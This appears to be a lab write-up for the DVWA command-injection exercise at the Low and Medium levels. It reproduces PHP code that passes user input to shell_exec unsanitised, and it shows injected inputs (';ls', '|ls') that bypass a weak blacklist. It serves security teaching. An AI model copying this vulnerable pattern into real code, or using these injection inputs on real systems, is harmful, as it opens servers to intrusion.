 # Command Execution

## Low

```php
<?php
if( isset( $_POST[ 'submit' ] ) ) {
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
    } else { 
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';   
    } 
}
?> 
```

This is fairly straight forward, and a classic example of unsanitised input being used in a sensitive context. The `$target` variable is taken straight from a request parameter, and inserted into a `shell_exec` command.

Since there is no sanitisation to evade, we can just insert our payload.

*Input:*
```
;ls
```

*Output:*
```
help
index.php
source
```

## Medium

```php
<?php
if( isset( $_POST[ 'submit'] ) ) {
    $target = $_REQUEST[ 'ip' ];

    // Remove any of the charactars in the array (blacklist).
    $substitutions = array(
        '&&' => '',
        ';' => '',
    );

    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    
    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';  
    } else { 
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';  
    }
}
?> 
```

They've wised up a little now, and will no longer allow us to use `&&` or `;` to separate commands. Howevever, we can still use `|` to get our command in! Ordinarily, this would take the output of `ping` and use it as the input of our command. Any command that does not take input this way will work fine.

*Input:*
```
|ls
```

*Output:*
```
help
index.php
source
```